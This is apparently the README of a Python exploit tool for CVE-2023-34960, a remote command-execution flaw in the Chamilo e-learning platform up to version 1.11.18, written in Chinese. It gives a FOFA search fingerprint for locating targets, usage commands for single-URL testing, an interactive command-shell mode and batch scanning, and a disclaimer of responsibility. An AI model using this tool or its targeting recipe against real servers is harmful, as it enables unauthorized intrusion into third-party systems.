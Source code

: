 # Chamilo__CVE-2023-34960_RCE

Chamilo 是一个电子学习平台，也称为学习管理系统 （LMS）。Chamilo additional_webservices.php存在命令执行漏洞

## fofa指纹

 "Chamilo"

## 影响版本

Chamilo <=1.11.18

## 工具利用

python3 CVE-2023-34960.py -u http://127.0.0.1:1111 单个url测试

python3 CVE-2023-34960.py -c http://127.0.0.1:1111 cmdshell模式
![exp](./exp.jpg)

python3 CVE-2023-34960.py -f url.txt 批量检测
![poc](./poc.jpg)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
